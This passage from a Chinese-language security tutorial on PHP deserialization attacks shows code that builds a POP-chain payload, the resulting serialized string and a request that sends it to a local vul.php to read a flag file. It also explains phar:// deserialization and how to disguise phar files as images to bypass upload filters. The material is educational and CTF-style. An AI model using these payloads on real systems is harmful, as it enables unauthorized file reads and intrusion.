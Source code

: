 ```php
          return (string)$content;
      }
  }
  class Test{
    public $file;
    public $params;
    // 原方法的定义此处省略，因为它对生成序列化字符串没有影响
  }
  $test = new Test();
  $test->params = array('source'=>'/var/www/html/flag.php');
  $show = new Show();
  $show->str = array('str'=>$test);
  $output = new Output($show);
  echo serialize($output);
?>
```

执行后得到如下序列化字符串：

```java
O:6:"Output":2:{s:4:"test";N;s:3:"str";O:4:"Show":2:{s:3:"str";a:1:{s:3:"str";O:4:"Test":2:{s:4:"file";N;s:6:"params";a:1:{s:6:"source";s:22:"/var/www/html/flag.php";}}}s:6:"source";N;}}
```

**5. 将生成的序列化字符串传递给漏洞参数实现利用**

漏洞参数是 GET 参数 str，因此可以如此构造请求：

```java
http://127.0.0.1/vul.php?str=O:6:"Output":2:{s:4:"test";N;s:3:"str";O:4:"Show":2:{s:3:"str";a:1:{s:3:"str";O:4:"Test":2:{s:4:"file";N;s:6:"params";a:1:{s:6:"source";s:22:"/var/www/html/flag.php";}}}s:6:"source";N;}}
```

整个过程可能有点绕，但 POP 链的利用技术就是如此，需要你对目标程序进行全方位的分析，提取出可利用的调用链进行组装，才有可能实现真正的攻击效果。

#### 3.phar 文件攻击

在 2018 年 BlackHat 黑客大会上，安全研究员 Sam Thomas 分享了议题"It's a PHP unserialization vulnerability Jim, but not as we know it"，介绍了一种关于利用 phar 文件实现反序列化漏洞的利用技巧，利用的是 phar 文件中序列化存储用户自定义的 meta-data，在解析该数据时就必然需要反序列化，配合 phar:// 伪协议即可触发对此的反序列化操作。比如如下代码即可触发对 test.txt 文件内容的反序列化操作：

```php
$filename = 'phar://phar.phar/test.txt';
file_get_contents($filename);
```

在实际利用时，还可以对 phar 文件进行格式上的伪造，比如添加图片的头信息，将其伪装成其他格式的文件，用于绕过一些上传文件格式的限制。  

更加具体技术资料，推荐以下两篇：

[《利用 phar 拓展 php 反序列化漏洞攻击面》](https://paper.seebug.org/680/)

[《It's a PHP unserialization vulnerability Jim, but not as we know it》](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf)

### 如何挖掘反序列化漏洞？
